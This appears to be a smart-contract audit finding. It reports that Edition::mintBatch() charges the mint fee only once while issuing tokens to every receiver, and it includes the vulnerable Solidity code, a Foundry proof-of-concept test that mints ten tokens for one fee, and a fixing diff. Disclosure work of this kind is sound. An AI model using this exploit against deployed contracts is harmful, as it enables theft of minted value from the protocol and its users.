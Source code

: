 Wonderful Tin Cuckoo

high

# `Edition::mintBatch()-0x904868b2`, the attacker can mint token for free

## Summary
`Edition::mintBatch()-0x904868b2`, the attacker can mint token for free
## Vulnerability Detail
1.`Edition::mintBatch()-0x904868b2`, the attacker can mint token for free,`amount_` is the amount that each address in receivers_ will receive, and receivers_ can have multiple addresses. But here you only need to pay the amount_ casting fee once in `FeeManager::collectMintFee()`, and you can cast it multiple times in the following loop
2.The user calls `Edition::mintBatch()-0x904868b2` and sends ETH. When the `Edition::mintBatch()-0x904868b2` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding value in the `Edition` contract will be ETH is sent to the `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`, at this point, the attacker can consume the ETH in the contract to mint tokens.
```js
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
@>        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
        );


@>        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }


        _refundExcess();
    }
```
### Poc
Please add to `Edition.t.sol` and execute
```js
    function test_mintBatchFreeMintingTokens() public {
        // init attacker
        address attacker = makeAddr("attacker");
        // Get the fee to mint 1 token
        uint256 fee = feeManager.getMintFee(edition, 1, 1).amount;
        assertEq(fee, 0.0106 ether);
        deal(attacker, fee);
        // init receivers
        address[] memory receivers = new address[](10);
        for (uint256 i = 0; i < receivers.length; ++i) {
            receivers[i] = attacker;
        }
        // calls mintBatch
        vm.prank(attacker);
        edition.mintBatch{value: fee}(receivers, 1, 1, new bytes(0));
        assertEq(edition.totalSupply(1), 10);
        assertEq(edition.balanceOf(attacker, 1), 10); // The attacker gets 10 tokens
        assertEq(attacker.balance, 0);
    }
    // [PASS] test_mintBatchFreeMintingTokens() (gas: 253357)
```

## Impact
1.`Edition::mintBatch()-0x904868b2`, the attacker can mint token for free,`amount_` is the amount that each address in receivers_ will receive, and receivers_ can have multiple addresses. But here you only need to pay the amount_ casting fee once in `FeeManager::collectMintFee()`, and you can cast it multiple times in the following loop
2.The user calls `Edition::mintBatch()-0x904868b2` and sends ETH. When the `Edition::mintBatch()-0x904868b2` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding value in the `Edition` contract will be ETH is sent to the `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`, at this time the attacker only needs to ensure msg.value > 0 to consume the ETH in the contract to obtain the token.
## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/editions/Edition.sol#L304-L320
## Tool used

Manual Review

## Recommendation
We can try Calculate the total amount of tokens and verify msg.value and send the corresponding amount
```diff
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
+       uint256 totalAmount_ = amount_ * receivers_.length;
+       uint256 sendValue = FEE_MANAGER.getMintFee(works[tokenId_].strategy, totalAmount_).amount;
+       if (msg.value < sendValue) revert();
        // wake-disable-next-line reentrancy
+        FEE_MANAGER.collectMintFee{value: sendValue}(        
-        FEE_MANAGER.collectMintFee{value: msg.value}(
-            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
+            this, tokenId_, totalAmount_, msg.sender, address(0), works[tokenId_].strategy
        );


        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }


        _refundExcess();
    }
```
